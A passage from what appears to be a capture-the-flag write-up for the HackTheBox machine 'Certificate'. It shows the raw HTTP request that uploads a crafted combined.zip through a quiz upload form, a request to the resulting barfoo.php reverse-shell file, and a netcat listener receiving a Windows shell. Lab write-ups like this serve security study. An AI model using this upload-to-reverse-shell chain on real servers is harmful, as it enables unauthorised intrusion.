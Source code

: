 Then we uploaded the `combined.zip` right from the same `upload form`.

```shell
POST /upload.php?s_id=13 HTTP/1.1
Host: certificate.htb
Content-Length: 60434
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://certificate.htb
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary7mqtLq8ptQXYBI4C
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://certificate.htb/upload.php?s_id=13
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=dqro66lqebbl5iu3oi6e38bsve
Connection: keep-alive

------WebKitFormBoundary7mqtLq8ptQXYBI4C
Content-Disposition: form-data; name="info"

How to be the employee of the month! - Quizz-3
------WebKitFormBoundary7mqtLq8ptQXYBI4C
Content-Disposition: form-data; name="quizz_id"

13
------WebKitFormBoundary7mqtLq8ptQXYBI4C
Content-Disposition: form-data; name="file"; filename="combined.zip"
Content-Type: application/zip

<--- CUT FOR BREVITY --->
```

Then we changed the `URL` to the file containing the `reverse shell payload` and got a `callback`.

- [http://certificate.htb/static/uploads/fd5b3018c29991130b22f3381786067b/barfoo.php](http://certificate.htb/static/uploads/fd5b3018c29991130b22f3381786067b/barfoo.php)

```shell
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 9000
listening on [any] 9000 ...
connect to [10.10.16.15] from (UNKNOWN) [10.129.37.186] 51834
SOCKET: Shell has connected! PID: 3720
Microsoft Windows [Version 10.0.17763.6532]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\xampp\htdocs\certificate.htb\static\uploads\fd5b3018c29991130b22f3381786067b>
```

### Enumeration (xamppuser)
